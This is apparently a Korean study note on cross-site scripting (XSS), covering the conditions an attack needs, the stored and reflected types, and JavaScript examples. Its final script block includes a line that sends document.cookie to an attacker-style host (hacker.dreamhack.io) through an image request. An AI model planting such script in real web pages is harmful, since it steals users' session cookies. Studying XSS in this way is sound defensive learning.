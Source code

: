 # XSS

공격자의 입력값이
자바스크립트의 일부로 웹 브라우저에서
실행되는 취약점을 말한다.

## xss를 성공하기 위해서

XSS공격을 성공하기 위해서는
통상적으로 두가지의 조건이 전제되어야 한다.

    1. 입력 데이터에 대한 충분한 검증 과정이 없어야 한다.
        - 입력한 데이터가 충분한 검증 과정이 없어,
          악성스크립트가 삽입 될 수 있어야 한다.
    
    2. 서버의 응답 데이터가 웹 브라우저 내 페이지에
       출력 시 충분한 검증 과정이 없어야 한다.
       - 웹 브라우저에서 출력 시 필터링에 걸리지 않아야한다.

이들의 대표적인 예시로는 게시판 서비스이며,
이는 게시글이 검증되지 않을 경우 해당 게시글의 이용자들이
악성스크립트가 그대로 실행되기 때문에 위험하다.
```txt
+ 악성스크립트가 전달되는 방식에 따라
  Stored XSS
  Reflected XSS
  등 여러가지로 나뉜다.
  
  하지만 취약점의 원인은 동일하다.
```

## XSS with Javascript

JS는 사용자의 웹 브라우저에서 동적으로 보여주거나,
화면 구성을 변환하거나, 자동으로 버튼을 누르는 등의
작업을 할 때 많이 사용된다.

이런 JS는 웹 브라우저나 웹의 입장에서 상당히 접근성이 높기에
페이지 내용 조작, 위치 주소 변경, 개인정보 유출 등 다양한 방식으로
동작 시킬 수 있기때문에 이는 XSS에 다양하게 이용된다.

이를 작동시키는 대표적인 방법은
```html
    <script>
        alert("hello");
        //hello 문자열 alert 실행

        document.cookie; 
        //현재 페이지의 cookie 리턴

        alert(document.cookie);
        //현재 페이지의 cookie값 alert 실행

        document.cookie = "name=test;";
        //도큐먼트의 쿠키 생성, (key: name, value: test)

                
        new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
        // new Image() 는 이미지를 생성하는 함수이며,
        // src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
        // "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키"
        //주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
    </script>
```
이 처럼 script태그를 이용하는 방식이 있으며,
특정상황을 이용하는 on* 이벤트들을 이용하는 경우도 있다.

